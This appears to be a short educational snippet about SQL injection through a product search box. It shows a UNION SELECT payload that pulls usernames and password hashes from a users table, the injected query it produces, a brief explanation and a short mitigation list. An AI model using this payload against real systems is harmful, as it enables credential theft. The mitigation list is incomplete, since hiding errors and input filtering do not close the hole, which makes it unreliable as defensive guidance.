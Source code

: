## 🧪 Scenario: Search box reveals DB query results directly

📥 Input:

```sql
' UNION SELECT username, password FROM users --
```

📤 Query Constructed:

```sql
SELECT name, description FROM products WHERE name = '' UNION SELECT username, password FROM users --';
```

## 🔍 Explanation: The UNION keyword allows combining attacker-defined data into the response.

🎯 Impact: Leaks usernames and password hashes.

## 🛡️ Mitigation:

- Remove SQL error feedback to users

- Validate number and type of returned columns

- Apply strict input controls

